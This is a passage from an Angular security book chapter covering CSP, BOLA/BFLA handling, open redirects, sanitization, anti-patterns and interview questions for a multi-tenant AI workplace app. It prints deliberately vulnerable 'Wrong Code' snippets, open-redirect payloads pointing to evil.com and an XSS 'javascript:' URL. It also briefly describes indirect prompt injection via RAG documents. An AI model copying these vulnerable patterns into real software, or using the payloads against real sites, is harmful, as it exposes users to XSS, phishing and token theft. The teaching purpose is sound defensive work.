| `Strict-Transport-Security` (HSTS) | Forces HTTPS-only connections to block SSL-stripping attacks. | `max-age=31536000; includeSubDomains`. |
| `Permissions-Policy` | Disables unused browser hardware APIs (camera, geolocation, microphone) to reduce attack surface. | `camera=(), microphone=(), geolocation=()`. |

### How Angular Works with Strict CSP (`CSP_NONCE`)
Angular components use encapsulated `<style>` tags injected into `<head>` at runtime. If you set a strict CSP `style-src 'self'` without `'unsafe-inline'`, Angular's component styles will be blocked by the browser unless you provide a cryptographic per-request **nonce** via Angular's `CSP_NONCE` injection token (or the `ngCspNonce` attribute on the root `<app-root>` element).

```typescript
// app.config.ts: Providing a runtime CSP nonce injected into <meta name="csp-nonce"> by the host
import { ApplicationConfig, CSP_NONCE } from '@angular/core';

function getCspNonce(): string {
  return document.querySelector('meta[name="csp-nonce"]')?.getAttribute('content') ?? '';
}

export const appConfig: ApplicationConfig = {
  providers: [
    { provide: CSP_NONCE, useFactory: getCspNonce }
  ]
};
```

### When NOT to Relax CSP Directives
* **Never add `'unsafe-eval'` or `'unsafe-inline'` to `script-src`:** Doing so defeats CSP's primary XSS protection—an injected `<script>` tag or `eval()` payload will execute freely.
* **Never use `connect-src *`:** Wildcard connect permissions allow an XSS payload or rogue dependency to exfiltrate workspace data to any attacker-controlled server. Whitelist only `'self'` and exact storage/CDN domains (e.g., MinIO).

### Real-World Normora Examples

#### Example 1: Production CSP Header on `Normora.Api` Serving the Angular SPA
Normora whitelists `'self'` for BFF APIs/SignalR WebSockets and its MinIO object-storage origin for direct presigned uploads/downloads, while locking down everything else:

```http
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-{RANDOM}'; style-src 'self' 'nonce-{RANDOM}'; img-src 'self' data: https://minio.normora.internal; connect-src 'self' wss://app.normora.com https://minio.normora.internal; frame-ancestors 'none'; object-src 'none'; base-uri 'self'; form-action 'self' https://secure.payu.in;
```

*(Notice `form-action` explicitly permits `'self'` and the PayU hosted checkout origin—blocking unauthorized form submissions to phishing domains!)*

#### Example 2: `CSP_NONCE` Integration for Tailwind CSS v4 & Angular Components
By reading the per-response nonce from `<meta name="csp-nonce">` via `CSP_NONCE`, Angular attaches `nonce="..."` to every dynamically injected component `<style>` tag—enabling strict `style-src` without breaking Tailwind v4 utilities or PrimeNG overlays.

#### Example 3: Clickjacking Defense on `PendingApproval` Modals
If an attacker framed Normora inside a transparent `<iframe>` over a fake "Claim Gift Card" button, an admin could unwittingly click "Confirm Delete" on a `PendingApproval` HITL dialog. Setting `frame-ancestors 'none'` and `X-Frame-Options: DENY` makes the browser refuse to frame Normora anywhere.

#### Example 4: Protecting Tenant Slugs & Document IDs with `Referrer-Policy`
Normora uses path-based workspace routing (e.g., `/w/acme-corp/documents/9d4f...`). With `Referrer-Policy: strict-origin-when-cross-origin` and `rel="noopener noreferrer"` on external citation links, clicking a link inside a policy document never leaks the tenant slug or document UUID to third-party websites.

#### Example 5: `nosniff` & `Content-Disposition: attachment` on MinIO Document Downloads
If an employee uploads an HTML or SVG file disguised as a policy document, serving it inline from the same origin with guessed MIME types creates a Stored XSS risk. Combining `X-Content-Type-Options: nosniff` with MinIO presigned URLs forcing `Content-Disposition: attachment` guarantees the browser downloads the file rather than executing it.

---

## 8. Securing Routes, Multi-Tenant Authorization (BOLA/BFLA), AI UI & External Libraries

### What & Why
Enterprise frontends sit at the intersection of routing, authorization envelopes, third-party UI libraries, file uploads, and—in Normora—autonomous AI tooling. Each integration point introduces distinct vulnerabilities if handled carelessly:

1. **BOLA vs. BFLA on the Frontend:**
   * **BOLA (Broken Object Level Authorization):** A user asks for a specific resource ID (`GET /api/documents/{id}`) belonging to another tenant or restricted department. Normora's backend throws `BolaException()`, which maps to **`404 Not Found`** with generic `ApiMessages.NotFound`—preventing attackers from discovering whether an ID exists in another tenant!
   * **BFLA (Broken Function Level Authorization):** A user lacks permission to run an operation (e.g., an Employee trying to invite users or delete a workspace). Normora throws `BflaException()`, mapping to **`403 Forbidden`** with `ApiResponse.Failure(ApiMessages.Forbidden)`.
2. **CWE-209 (Information Exposure Through an Error Message):** Displaying raw `err.error?.message`, SQL errors, or internal stack traces in Angular toast notifications gives attackers reconnaissance into database schemas, file paths, and internal services. Always map UI error messages to centralized `ApiMessages` constants.
3. **Open Redirects & Reverse Tabnabbing:**
   * **Open Redirect:** Passing `?returnUrl=https://evil.com` to `/bff/login` and redirecting blindly after authentication lets phishers abuse your trusted domain. Only allow relative paths starting with a single `/` (and not `//` or `/\`).
   * **Reverse Tabnabbing:** Opening external links with `target="_blank"` without `rel="noopener noreferrer"` allows the opened tab (in older browsers or edge cases) to access `window.opener`.
4. **Third-Party UI Libraries:** If you pass user-generated or AI-generated HTML into third-party grids, rich-text widgets, or datagrids (`<third-party-datagrid [htmlConfig]="...">`), **Angular's default template sanitizer does not run** inside non-Angular DOM manipulation used by external wrappers. Always sanitize manually with `DomSanitizer.sanitize(SecurityContext.HTML, ...)` first.
5. **AI / Agentic UI & Prompt Injection:** Retrieved RAG documents can contain **Indirect Prompt Injection** (hidden instructions inside a PDF telling the LLM to output phishing links or trigger destructive tools). Never auto-execute destructive actions on the client, and always treat LLM output as untrusted input.



### When NOT to Trust Frontend Checks
* **Never rely on `CanActivateFn` guards or `@if (hasRole('Admin'))` as security controls:** They exist strictly for UX (hiding irrelevant menus). Even if an attacker removes `@if` in memory or calls `/api/tenants/invitations` via `curl`, `Normora.Api` must enforce `BflaException` (`403`) and `BolaException` (`404`).
* **Never trust client-side Reactive Form validators or `<input accept=".pdf">` checks alone:** Attackers can intercept requests and upload executable payloads with spoofed `Content-Type` headers; server-side `FluentValidation` and magic-byte inspection are mandatory.

### Real-World Normora Examples

#### Example 1: Normora's Global Error Interceptor (`BOLA 404` vs `BFLA 403` & `ApiMessages` for CWE-209)
Normora never hardcodes error strings or renders raw server exception strings in toast alerts:

```typescript
// client/src/app/core/interceptors/api-error.interceptor.ts
import { HttpErrorResponse, HttpInterceptorFn } from '@angular/common/http';
import { inject } from '@angular/core';
import { catchError, throwError } from 'rxjs';
import { ApiMessages } from '../constants/api-messages';
import { ToastService } from '../services/toast.service';

export const apiErrorInterceptor: HttpInterceptorFn = (req, next) => {
  const toast = inject(ToastService);

  return next(req).pipe(
    catchError((error: unknown) => {
      if (error instanceof HttpErrorResponse) {
        switch (error.status) {
          case 403:
            // BFLA: User lacks functional permission
            toast.error(ApiMessages.Forbidden);
            break;
          case 404:
            // BOLA or missing record: Never reveal whether the ID exists in another tenant
            toast.error(ApiMessages.NotFound);
            break;
          default:
            // CWE-209: Never render raw error.error?.exceptionMessage or stack traces
            toast.error(ApiMessages.GenericError);
            break;
        }
      }
      return throwError(() => error);
    })
  );
};
```

#### Example 2: Preventing Open Redirects on Post-Login `returnUrl`
Before redirecting back to a deep link after `/bff/login`, validate that `returnUrl` stays strictly within Normora's SPA origin:

```typescript
export function sanitizeReturnUrl(rawUrl: string | null | undefined, fallback = '/'): string {
  if (!rawUrl) {
    return fallback;
  }
  // Must start with a single '/' and NOT '//' (protocol-relative URL) or '/\'
  const isSafeRelativePath = rawUrl.startsWith('/') && !rawUrl.startsWith('//') && !rawUrl.startsWith('/\\');
  return isSafeRelativePath ? rawUrl : fallback;
}
```

#### Example 3: Sanitizing Data Passed to Third-Party UI Components
Many enterprise apps use third-party components (such as Ag-Grid, Kendo UI, or custom PrimeNG HTML cell templates). If an external grid assigns an input directly to `element.innerHTML` under the hood, Angular's template sanitizer never runs. Always sanitize explicitly first:

```typescript
import { Component, computed, inject, input, SecurityContext } from '@angular/core';
import { DomSanitizer } from '@angular/platform-browser';

@Component({
  selector: 'app-audit-log-grid-cell',
  template: `
    <!-- Manually sanitized before reaching a third-party datagrid wrapper -->
    <third-party-datagrid
      [htmlConfig]="safeHtml()"
      class="bg-white dark:bg-slate-900 text-slate-900 dark:text-white border-none!">
    </third-party-datagrid>
  `
})
export class AuditLogGridCellComponent {
  private readonly sanitizer = inject(DomSanitizer);
  readonly unsafeHtml = input.required<string>();

  readonly safeHtml = computed(
    () => this.sanitizer.sanitize(SecurityContext.HTML, this.unsafeHtml()) ?? ''
  );
}
```

#### Example 4: Securing Server-Enforced HITL (`PendingApproval`) & `intake_form_card`
When `NormoraWorkplaceAgent` proposes `documents_delete`, the backend creates a `PendingApproval` entry with a 15-minute TTL. On the frontend:
* The confirmation card renders only the server-issued `approvalId` and document summary—never a client-computed `isApproved = true` flag.
* Missing-parameter forms (`intake_form_card` via `workspace_request_form`) bind to strict Angular Reactive Forms validators before submitting, while backend `FluentValidation` re-validates every field.

#### Example 5: Secure MinIO Document Upload Pre-Check & Supply Chain Hygiene
Before requesting a presigned MinIO upload URL (`UploadDocumentCommandHandler`), Normora checks file extension and byte size for instant UX feedback (while the backend re-verifies magic bytes and queues `DocumentProcessingOutboxMessage` atomically):

```typescript
import { ApiMessages } from '../constants/api-messages';

const ALLOWED_EXTENSIONS = new Set(['.pdf', '.docx', '.md', '.txt']);
const MAX_FILE_BYTES = 25 * 1024 * 1024; // 25 MB

export function validateUploadFile(file: File): string | null {
  const ext = file.name.slice(file.name.lastIndexOf('.')).toLowerCase();
  if (!ALLOWED_EXTENSIONS.has(ext)) {
    return ApiMessages.InvalidUploadType;
  }
  if (file.size > MAX_FILE_BYTES) {
    return ApiMessages.FileTooLarge;
  }
  return null;
}
```

*(Combine this with `npm ci` lockfiles, `npm audit`, and Subresource Integrity `integrity="sha384-..."` hashes if you ever load an external `<script>` in `index.html`, though bundling dependencies locally is always preferred.)*

---

## 9. Common Mistakes & Anti-Patterns

> [!CAUTION]
> **1. Direct DOM Manipulation via `ElementRef.nativeElement.innerHTML` (Beginner Mistake)**
>
> **Wrong Code:**
> ```typescript
> @Component({ selector: 'app-policy-banner', template: '<div #host></div>' })
> export class PolicyBannerComponent {
>   private readonly el = inject(ElementRef);
>   renderNotice(html: string): void {
>     // Bypasses Angular's AOT compiler and DomSanitizer completely!
>     this.el.nativeElement.innerHTML = html;
>   }
> }
> ```
>
> **Why It's Wrong:** Writing directly to `nativeElement.innerHTML` circumvents Angular's template engine and `DomSanitizer`. Any `` inside `html` executes immediately in the victim's browser.
>
> **The Fix:** Use declarative Angular bindings (`{{ }}` for plain text, or `[innerHTML]` backed by sanitized output) and Signals:
> ```typescript
> @Component({
>   selector: 'app-policy-banner',
>   template: `
>     <div class="p-3 rounded bg-amber-50 dark:bg-amber-950 text-amber-900 dark:text-amber-100 border border-amber-200 dark:border-amber-800"
>          [innerHTML]="safeNotice()">
>     </div>
>   `
> })
> export class PolicyBannerComponent {
>   private readonly sanitizer = inject(DomSanitizer);
>   readonly rawHtml = input.required<string>();
>   readonly safeNotice = computed(
>     () => this.sanitizer.sanitize(SecurityContext.HTML, this.rawHtml()) ?? ''
>   );
> }
> ```

> [!CAUTION]
> **2. Storing OIDC JWTs in `localStorage` or `sessionStorage` (Architect Mistake)**
>
> **Wrong Code:**
> ```typescript
> // Anti-pattern in enterprise SPAs:
> localStorage.setItem('access_token', oidcResponse.access_token);
> localStorage.setItem('refresh_token', oidcResponse.refresh_token);
> ```
>
> **Why It's Wrong:** While storing tokens in `localStorage` avoids CSRF, it makes any minor XSS vulnerability or compromised npm package catastrophic: an attacker runs `localStorage.getItem('refresh_token')` once and owns the user's identity even after they close the tab.
>
> **The Fix:** Keep OIDC tokens on the server using Normora's **Duende BFF** (`Normora.Api`), issuing an encrypted `HttpOnly; SameSite=Strict; Secure` session cookie and pairing it with `X-CSRF: 1` on `/api/*` and `/bff/*` calls.

> [!CAUTION]
> **3. Calling `bypassSecurityTrust*` on User, Route, or LLM Data**
>
> **Wrong Code:**
> ```typescript
> // Catastrophic XSS: trusting query parameters or Gemini RAG responses!
> readonly trustedHtml = computed(() =>
>   this.sanitizer.bypassSecurityTrustHtml(this.agentMarkdownResponse())
> );
> ```
>
> **Why It's Wrong:** Prompt injection inside an uploaded PDF or a tampered query parameter can trick the LLM or template into outputting `<script>` or `onerror` handlers. Calling `bypassSecurityTrustHtml` disables Angular's last line of defense.
>
> **The Fix:** Sanitize HTML using DOMPurify with an explicit allowlist (or render typed A2UI Signal components like `ExpenseSimulatorCardComponent`), and only ever call `bypassSecurityTrustResourceUrl` after verifying `URL.hostname` against a strict allowlist.

> [!CAUTION]
> **4. Treating Angular Route Guards (`CanActivateFn`) or `@if` Blocks as Security**
>
> **Wrong Code:**
> ```typescript
> // Assuming hiding the button protects the backend endpoint:
> @if (currentUser().role === 'Admin') {
>   <button (click)="deleteWorkspace()">Delete Workspace</button>
> }
> ```
>
> **Why It's Wrong:** An attacker can flip `role` in browser memory or send `DELETE /api/tenants/current` directly via `curl` with their BFF cookie. Relying on UI checks is **CWE-602**.
>
> **The Fix:** Treat Angular guards and `@if` blocks strictly as **UX convenience**. Every Normora controller/handler must verify membership, `TenantId`, and role permissions on the server—throwing `BolaException()` (`404`) or `BflaException()` (`403`).

> [!CAUTION]
> **5. Leaking Raw Server Exceptions or BOLA Existence in UI Toasts (CWE-209)**
>
> **Wrong Code:**
> ```typescript
> // Leaks internal exceptions, stack info, and resource existence!
> this.toast.error(err.error?.exceptionMessage ?? `Document ${docId} belongs to Tenant Acme`);
> ```
>
> **Why It's Wrong:** Hardcoded strings violate Normora's `ApiMessages` rule, and exposing `exceptionMessage` or distinguishing "belongs to another tenant" from "does not exist" enables resource enumeration and violates **CWE-209**.
>
> **The Fix:** Always map `404` (including BOLA) to `ApiMessages.NotFound`, `403` (BFLA) to `ApiMessages.Forbidden`, and unexpected failures to `ApiMessages.GenericError` from `client/src/app/core/constants/api-messages.ts`.

> [!CAUTION]
> **6. Open Redirects via Unvalidated `returnUrl` Parameters**
>
> **Wrong Code:**
> ```typescript
> const returnUrl = this.route.snapshot.queryParamMap.get('returnUrl') ?? '/';
> window.location.href = returnUrl; // Allows "?returnUrl=https://phishing.example" or "//evil.com"!
> ```
>
> **Why It's Wrong:** Attackers craft links like `https://app.normora.com/login?returnUrl=https://evil.example`. After logging in legitimately, the user is redirected to a phishing clone and trusts it because the flow started on `app.normora.com`.
>
> **The Fix:** Validate `returnUrl` so it must start with a single `/` and never `//` or `/\` (using `sanitizeReturnUrl()`), or enforce an explicit allowlist on the Duende BFF host.

> [!CAUTION]
> **7. Forgetting to Clear Tenant Signal Stores on Workspace Switch or Logout**
>
> **Wrong Code:**
> ```typescript
> switchTenant(newSlug: string): void {
>   this.router.navigate(['/w', newSlug, 'documents']);
>   // Old Signal state in DocumentsStore stays in memory while the new fetch loads!
> }
> ```
>
> **Why It's Wrong:** In an SPA, singleton `providedIn: 'root'` Signal stores outlive route transitions. Users switching tenants or sharing a workstation after logout can see stale documents or cached search results from the previous workspace.
>
> **The Fix:** Explicitly reset all tenant-scoped Signal stores (`documentsStore.reset()`, `conversationsStore.reset()`) and abort in-flight SSE/SignalR streams whenever switching tenants or calling `/bff/logout`.

---

## 10. Interview Questions

### Junior
**1. What is the difference between `{{ data }}` and `[innerHTML]="data"` in Angular?**
> **A:** Double curly braces (`{{ }}`) perform contextual text interpolation (`SecurityContext.NONE`). Angular escapes HTML characters so `<script>` renders harmlessly as literal text (`&lt;script&gt;`). `[innerHTML]` (`SecurityContext.HTML`) instructs Angular to render actual HTML tags in the DOM, but Angular automatically runs the value through `DomSanitizer` first, stripping `<script>`, `<iframe>`, and inline event handlers like `onclick`.

**2. Why should you add `rel="noopener noreferrer"` to external links with `target="_blank"`?**
> **A:** Without `noopener`, an opened external page can potentially access the originating tab via `window.opener` (Reverse Tabnabbing) or share process resources. Adding `noreferrer` also prevents the browser from sending the `Referer` header—protecting internal URLs such as Normora tenant slugs or document IDs from leaking to external websites.

### Senior
**3. Explain how Angular's `DomSanitizer` handles a dynamic `[href]="userUrl"` binding on an anchor tag.**
> **A:** Angular recognizes `href` as a `SecurityContext.URL` binding. Standard `http://`, `https://`, and `mailto:` links are allowed. If an attacker injects a dangerous protocol such as `javascript:alert(1)` or `data:text/html,...`, Angular detects the unsafe scheme and neutralizes it by prefixing `unsafe:` (e.g., `unsafe:javascript:alert(1)`), rendering the link inert when clicked.

**4. Why does passing user HTML to a third-party component (like a datagrid or chart widget) bypass Angular's sanitizer, and how do you fix it?**
> **A:** Angular's template sanitizer only protects standard DOM bindings (`[innerHTML]`, `[href]`) on native elements. When you pass a string into a third-party `@Input()` / `input()` property (`[htmlConfig]="..."`), Angular passes the raw string untouched; if that library assigns it directly to `element.innerHTML`, you have an XSS vulnerability. Always sanitize manually beforehand with `this.sanitizer.sanitize(SecurityContext.HTML, value)` (or DOMPurify).

**5. How does Angular's `CSP_NONCE` token work, and why is it needed under a strict Content Security Policy?**
> **A:** Angular injects component stylesheets dynamically into `<style>` tags in the document `<head>`. Under a strict CSP (`style-src 'self'` without `'unsafe-inline'`), browsers block inline `<style>` tags unless they carry a matching cryptographic nonce. Providing `CSP_NONCE` (or `ngCspNonce`) tells Angular to attach that per-request nonce attribute to every injected `<style>` tag.

**6. How does `X-CSRF: 1` protect a Duende BFF API differently from a Double-Submit Cookie (`withXsrfConfiguration`)?**
> **A:** Double-Submit Cookie relies on the Angular `HttpClient` reading a non-`HttpOnly` cookie and copying its value into a header (`X-XSRF-TOKEN`), proving same-origin JavaScript read access. Custom-header verification (`X-CSRF: 1`) leverages browser Same-Origin Policy and CORS rules directly: HTML forms cannot send custom headers, and cross-origin `fetch()` calls with custom headers are blocked by CORS preflight (`OPTIONS`) unless the server explicitly permits that origin.

### Architect
**7. Compare storing OIDC JWTs in `localStorage` versus using the Duende BFF pattern with `HttpOnly` cookies. When would you *not* use a BFF?**
> **A:** Storing JWTs in `localStorage` eliminates CSRF because browsers never attach `localStorage` automatically, **but** any XSS flaw or rogue third-party script can steal the access and refresh tokens forever. The **Duende BFF** pattern keeps all OIDC tokens on the server/Redis and issues an encrypted `HttpOnly; SameSite=Strict; Secure` cookie, neutralizing XSS token exfiltration while mitigating CSRF via `SameSite=Strict` + `X-CSRF: 1`. You would *not* use a cookie-based BFF for native mobile apps (which lack browser cookie jars and should use PKCE + OS Keychain) or purely public read-only static sites.

**8. How do BOLA (`404`), BFLA (`403`), and CWE-209 shape your Angular HTTP error handling and routing architecture?**
> **A:** To prevent resource ID enumeration across tenants, Normora maps **BOLA** (`BolaException`) to `404 Not Found` (`ApiMessages.NotFound`) rather than `403`, so an attacker cannot probe whether a document UUID exists in another workspace. **BFLA** (`BflaException`, missing permission on a known action) maps to `403 Forbidden` (`ApiMessages.Forbidden`). To satisfy **CWE-209**, Angular's error interceptor never renders raw server exception strings or stack traces—it strictly surfaces centralized `ApiMessages` constants and resets tenant-scoped Signal stores on `401` or workspace switch.

**9. How do you secure an AI-powered frontend like Normora's `NormoraWorkplaceAgent` against Indirect Prompt Injection and unauthorized tool execution?**
> **A:** Treat all LLM responses and retrieved RAG chunks as untrusted user input: sanitize rendered Markdown via DOMPurify + `SecurityContext.HTML`, render interactive calculators/cards (`ExpenseSimulatorCardComponent`, `HrEscalationCardComponent`) as typed A2UI Signal components rather than raw HTML, enforce **Trusted Types** in CSP, and never authorize destructive actions (like `documents_delete`) from client state—Normora enforces a server-side `PendingApproval` record with a 15-minute TTL, BOLA/BFLA checks, and `X-CSRF: 1` confirmation.

---

## 11. Summary
In this chapter, we explored enterprise frontend security from first principles through architect-level defense-in-depth:
* **XSS & Sanitization:** How Angular's five `SecurityContext` levels protect templates, when to sanitize manually for third-party libraries and Markdown/AI output, how to wrap `bypassSecurityTrust*` behind strict origin allowlists, and how **Trusted Types** block DOM XSS in the browser engine.
* **Sessions & CSRF:** Why **Normora** uses **Duende BFF** (`HttpOnly`, `SameSite=Strict`, `Secure` cookies) instead of `localStorage` JWTs, and how `withXsrfConfiguration` and `X-CSRF: 1` protect mutations, SignalR, and AG-UI SSE streams.
* **Headers & Boundaries:** How strict CSP, `CSP_NONCE`, `frame-ancestors 'none'`, `nosniff`, and `Referrer-Policy` harden the browser, while **BOLA (404)**, **BFLA (403)**, `ApiMessages` (**CWE-209**), Open Redirect checks, and Signal store resets keep multi-tenant boundaries airtight.

In our final chapter, **Chapter 20**, we will wrap up the entire book with a deep dive into **CI/CD Pipelines & Cloud Native Deployment**, showing you how to ship your enterprise application to the world via Docker and cloud infrastructure.
